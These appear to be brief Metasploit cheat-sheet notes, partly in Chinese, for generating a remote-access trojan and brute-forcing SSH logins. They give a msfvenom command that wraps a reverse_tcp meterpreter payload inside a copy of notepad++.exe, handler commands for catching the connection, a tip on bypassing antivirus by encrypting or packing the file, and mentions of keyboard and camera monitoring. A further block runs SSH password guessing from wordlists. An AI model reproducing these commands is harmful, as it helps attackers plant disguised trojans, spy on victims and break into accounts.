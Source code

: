 Metasploit-meterpreter
生成遠端木馬
```php
 msfvenom 鍵盤 鏡頭監控
msfvenom -p <payload> lhost=<kali_ip> lport=<port> -f exe <files> -x notepad++.exe -o notepad++.exe 
<payload>= OS windows/架構x64/作用meterpreter/方式reverse_tcp
use exploit/multi/handler
set payload <>
set lhost <>
set lport <>
run
bypass AV 加密檔 壓縮檔 包起來
```
弱口令檢查爆破
```php
### msf auxiliary/scanner/
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <ip>
set USER_FILE /path/dic_username_ssh.txt
set PASS_FILE /path/pwd100.txt
run
```
MSF flow
```php

```
